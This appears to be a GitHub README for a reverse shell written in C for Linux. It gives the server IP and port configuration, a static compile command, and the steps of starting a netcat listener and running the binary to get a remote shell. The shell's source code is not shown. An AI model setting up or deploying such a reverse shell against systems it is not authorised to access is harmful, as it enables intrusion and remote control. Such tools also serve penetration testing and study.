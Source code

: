 ### For Linux Machines!
<h1 align="center">
	<img src="https://static.thenounproject.com/png/2325457-200.png" width="150px"><br>
    Reverse Shell written in C.
</h1>

### Configuration
Go into `includes/config.h` to change all this.
```c
#pragma once

#define SERVER_IP "127.0.0.1" // Change to your server IP
#define SERVER_PORT 1337 // Changing this is optional
```
### Compiling
```
gcc -static -o reverse_shell main.c
```
### Running
```
[user@linux]$ nc -lvvp 1337 -s 127.0.0.1
-----------------------
[user@linux]$ ./reverse_shell
``` 
### Contributions 🎉
###### If you're interested in contributing simply open a pull request!
